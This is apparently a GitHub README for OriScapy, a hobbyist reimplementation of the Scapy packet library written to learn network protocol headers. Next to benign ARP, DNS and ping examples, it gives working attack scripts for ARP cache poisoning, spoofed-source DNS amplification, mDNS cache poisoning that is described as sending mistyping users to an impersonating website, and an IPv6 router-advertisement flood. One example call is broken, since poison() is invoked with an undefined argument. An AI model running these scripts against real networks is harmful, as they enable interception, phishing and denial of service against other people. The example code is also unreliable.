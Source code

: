 # OriScapy
This is a custom-made version of the well known [Scapy library for python](https://scapy.net/).


## Rationale
In my journey of learning about the fascinating world of Networking, I realised that Scapy    
is something im using all the time, without needing to worry about all the     
stuff it does in the background automatically.   
For example, when crafting an ARP request:

```python
pkt = Ether()/ARP(pdst="<Get_This_IP's_Mac")
mac = srp1(pkt)[ARP].hwsrc
```

Scapy automatically fills a good deal of fields of the ARP header.    
for example, you don't have to worry about these fields:
```text
  hwtype, ptype, hwlen, plen, op, hwsrc, psrc, hwdst      
```
Which Scapy automatically fills according to the [RFC Specification](https://datatracker.ietf.org/doc/html/rfc826) / [ARP packet header](https://en.wikipedia.org/wiki/Address_Resolution_Protocol#Packet_structure)

Also, no parameters were given to the `Ether` class constructor,   
although the Ethernet header obviously contains some info:
```text
dst, src, type
```

All those fields are automatically completed by Scapy for your own comfort.   
Scapy automatically detects the type of packet to be sent is ARP,  
And so it sets the `type` field to `0x806 (ARP)`, like it should be.   
Also, the `Source MAC` and the `Destination MAC` are automatically detected and filled.

And so I wanted for my knowledge about Networking, to learn more about  
the most famous packets' header format.   
And to do that I thought to make my own Scapy which would support    
Ethernet, ARP, IP, ICMP, UDP, DNS and maybe more in the future.

## Usage
**First of all, don't. Please just use [Scapy](https://pypi.org/project/scapy/).**   
But if you insist, then its basically the same as Scapy. Here are some examples:    
**__Note that OriScapy only works on Linux.__**     
#### ARP Queries

```python
from All import *

ip = "192.168.1.2"

# Resolve 192.168.1.2's MAC Address
pkt = Ether()/ARP(pdst=ip)  # Everything is auto-completed :)
ans = sendreceive(pkt)
print(f"{ip}'s MAC address is {ans.hwsrc}")
```

#### ARP Spoofing/Cache Poisoning
```python
from All import *

def poison(target_ip, target_mac, fake_ip, fake_mac, count=50):
    pkt = Ether(src=fake_mac)/ARP(hwsrc=fake_mac, psrc=fake_ip, hwdst=target_mac, pdst=target_ip, opcode=2)
    for _ in range(count):
        send(pkt)

poison(pkt, count=50)

```


#### DNS Queries
(No support for Additional and Authorative RRs)
```python
from All import *  
  
# Resolve google.com by querying google's DNS server (8.8.8.8)  
pkt = Ether()/IP(dst="8.8.8.8")/UDP(dport=53)/DNS(qd=DNSQR(qname="google.com"))  
ans = sendreceive(pkt, timeout=3)

for answer_record in ans.an:
    print(answer_record.rdata)
```

#### DNS Amplification
```python
from All import *

def dns_amp(target_ip):
    pkt = Ether()/IP(src=target_ip, dst="ip.of.dns.server")/UDP(dport=53)/DNS(rd=1, qd=DNSQR(qname="google.com", qtype=255))
    send(pkt)

dns_amp("192.168.1.2")
```

#### Resolve Hostname in LAN
```python
from All import *  
  
# To query the local LAN for the IP of hostname "myHostname"  
# a DNS Query is sent to multicast ip "224.0.0.251" and port 5353, also known as  
# multicast-DNS (mDNS). Inside the query, the qname should be "hostname"+".local"  
  
pkt = Ether()/IP(dst="224.0.0.251")/UDP(dport=5353)/DNS(qd=DNSQR(qname="myHostname.local"))  
  
# IP may come back either to the multicast address, or directly to the host PC's IP.
# Which means that you can't tell whether a packet is an answer to `pkt` based on
# the dst and src IP inside it, so we set flipIP to False
ans = sendreceive(pkt, flipIP=False)  
  
for answer_record in ans.an:  
    print(answer_record.rdata)
```
    

#### mDNS Cache Poisoning 
```python
from All import *

myIpv4 = "192.168.1.47"

def ismatch_mdns(pkt: Ether):
    return UDP in pkt and 5353 in (pkt[UDP].sport, pkt[UDP].dport) and DNSQR in pkt

def onmatch_mdns(pkt: Ether):
    """
    Receives a mDNS packet and reply with a spoofed packet saying
    that myIpv4 is the IP of that mDNS domain name.

    For example, when a user mistypes "google" for e.g. "goggle", 
    the user's PC queries the LAN for Domain <=> IP using mDNS.
    At that point we reply with our own IP, and the user goes
    to our website thinking we're google.
    :param pkt: Ether
    :return: None
    """

    isIPv6 = IPv6 in pkt

    if isIPv6:
        psrc = pkt[IPv6].psrc
    else:
        psrc = pkt[IP].psrc
    
    sport = pkt[UDP].sport
    dport = pkt[UDP].dport
    name = pkt[DNSQR][0].qname

    print(f"Spoofing response for: {name} from ip: {psrc} -> {myIpv4}")

    eth = Ether(dst=pkt.src)
    udp = UDP(sport=dport, dport=sport)
    dns = DNS(id=pkt[DNS].id, aa=1, an=DNSRR(name=name, ttl=120, rdata=myIpv4))

    # Windows sends both IPv4 and IPv6 packets (with the same DNSQR), so we
    # need to check if the packet is IPv6 or IPv4 and send the correct packet.

    if isIPv6:
        spoofed_response = eth/IPv6(pdst=psrc)/udp/dns
    else:
        spoofed_response = eth/IP(pdst=psrc)/udp/dns

    send(spoofed_response)

sniff(ismatch_mdns, onmatch_mdns)

```

#### Router Advertisement Flood (AKA flood_router6)
```python
from All import *

# Floods all nodes (ff02::1) or a specific address
# (represented by fe80:xx...) with 500 router advertisements.

# hop limit of 255 is required (from the RFC of NDP).
# More documentation soon.

tgt = generateSoliAddr("fe80::xxxx:xxxx:xxxx:xxxx")  # or just ff02::1, which is every host 

for _ in range(500):
    srcmac = randomMac()
    psrc = randomIpv6(isLocal=True)
    prefix = randomIpv6(isPrefix=True)

    pkt = Ether(src=srcmac, dst="33:33:00:00:00:01")/IPv6(psrc=psrc, pdst=tgt, hoplimit=255)/NDPRouterAdv(srcmac, prefix)
    send(pkt)

```

#### Ping an IP
```python
from All import *

# Ping google's DNS server
pkt = Ether()/IP(dst="8.8.8.8")/ICMP()
res = sendreceive(pkt, timeout=2)
print(res)
```



## Changelog
Added more helper functions:
    randomIpv6 and generateSoliAddr.   
Better NDPRouterAdv, which now forces receivers to generate an address using SLAAC.